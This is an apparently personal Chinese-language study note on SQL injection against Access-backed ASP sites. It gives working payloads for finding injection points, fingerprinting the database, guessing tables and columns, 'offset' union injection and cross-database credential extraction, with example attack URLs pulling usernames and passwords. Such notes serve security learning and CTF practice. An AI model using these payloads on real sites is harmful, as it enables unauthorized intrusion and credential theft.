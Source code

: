 ```yaml
---
layout:     post
title:      Web笔记（二）SQL注入之Access
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是Access的SQL注入。
date:       2020-11-28
author:     K4ys0n
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
    - Access
---
```




## 0x00 Access数据库

access数据库是以文件的形式保存在本地的，后缀是\*.mdb（access2003版及以前）、*.accdb（access2007版）。

一般使用access数据库的网站是windows+iis+access+asp，也就是用windows操作系统、IIS中间件、Access数据库、asp后台语言搭建的网站。

access数据库没有库这个概念，一个access数据库文件就是相当于库，文件里可以有多张表，表中有多个列。



## 0x01 asp连接接access数据库

#### 1. \*.accdb文件连接方式

```asp
<%
"Driver={microsoft access driver(*.mdb)};dbq="*.mdb;uid=admin;pwd=pass;
dim conn
set conn = server.createobject("adodb.connection")
conn.open "provider=Microsoft.ACE.OLEDB.12.0;" & "data source = " & server.mappath("bbs.mdb")
%>
```
#### 2. \*.mdb文件连接方式

```asp
<%
    "Driver={microsoft access driver(*.mdb)};dbq="*.mdb;uid=admin;pwd=pass;
    dim conn
    set conn = server.createobject("adodb.connection")
    conn.open "provider=microsoft.jet.oledB.4.0;" & "data source = " & server.mappath("bbs.mdb")
%>
```



## 0x02 打开access的工具

常用打开工具

- Microsoft Access
- 辅臣数据库浏览器
- 破障浏览器



## 0x03 判断注入点和数据库

```
# 判断注入点
id=1 and 1=1		# 存在数值型注入
id=1' or '1'='1		# 存在字符型注入

# 判断数据库
id=1 and exsits (select * from msysobjects)>0		# 说明是access
id=1 and exsits (select * from sysobjects)>0		# 说明是sqlserver
```



## 0x04 判断数据库表

```
id=1 and exsits (select * from [表名])
# 示例：
id=1 and exsits (select * from admin)
```



## 0x05 判断数据库列名

```
id=1 and exsits (select [字段名] from [表名])
# 示例：
id=1 and exsits (select admin from admin)
```



## 0x06 注入工具

- 穿山甲（pangolin）

- sqlmap



## 0x07 偏移注入

#### 1. 一般思路

借用数据库的自连接查询让数据库内部发生乱序，从而偏移出所需要的字段显示在页面上，但运气很重要，不能保证100%成功。

解决知道Access数据库中知道表名，但是得不到字段的SQL注入困境。

偏移注入流程：

- 判断字段数`order by`
- 判断表名，使用`union select * from`表名来获取
- 开始偏移注入，利用注入公式来注入

**公式**：order by出的字段数减去\*号的字段数（如果\*号是原来17的位置，那这个字段数就是16），然后再用order by的字段数减去2倍刚才得出来的答案。

```
?id=688 union select 1,2,3,4,a.id,b.id,* from ([表名] as a inner join [表名] as b on a.id=b.id)
```

举例：

```
# 首先是
?id=1513+order+by+22
# 测试出是22字段数，然后
?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22+from+admin
# 逐渐减少，用*代替，直到测试正常
?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,*+from+admin
# 可以计算22-16=6，22-6*2=10，所以
?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,a.id,b.id,*+from+(admin+as+a+inner+join+admin+as+b+on+a.id+b.id)
```

再举个例子

```
# 假设order by出的是18，*号有11个，那么就是18-11=7, 18-7*2=4，得到答案就是4。
?id=688 union select 1,2,3,4,a.id,b.id,* from (sys_admin as a inner join sys_admin as b on a.id=b.id)
这里的union select 1,2,3,4就是刚才得出来的长度。
后面的sql语句也是套路来的。
```

#### 2. 其他思路

- 看后台登录文件源码表单里面的参数值。

- 看网站地址链接上的规则。
- 是否判断出对方使用的cms程序。 



## 0x08 垮裤查询

- 条件：同服务器下的站点有注入，知道对方站的数据库绝对路径，知道对方数据库表，表中的字段名可以用这个方法来垮裤查询。

- 绝对路径：D:/wwwroot/...\*.mdb、\*.asa、\*.asp

- 举例：a是目标站点，b是存在注入的站点，a、b是同服务器的站点。

攻击链接示例如下，其中admin为表名，username、password为admin表的段。  

```
http://xxx.com/news/type.asp?id=1 and 1=2 union select 1,2,username,4,5,6 from [D:\wwwroot\1\Databases\xycms.mdb].admin

http://127.0.0.1:81/0/Production/PRODUCT_DETAIL.asp?id=-1 union select 1,2,username,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from [D:\wwwroot\1\Databases\xycms.mdb].admin

http://127.0.0.1:99/0/Production/PRODUCT_DETAIL.asp?id=-1%20UNION%20SELECT%201,2,username,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22%20from%20admin_user%20in%20'C:\Users\Seven\Desktop|webpentest\1\xydata\xycms.mdb'
```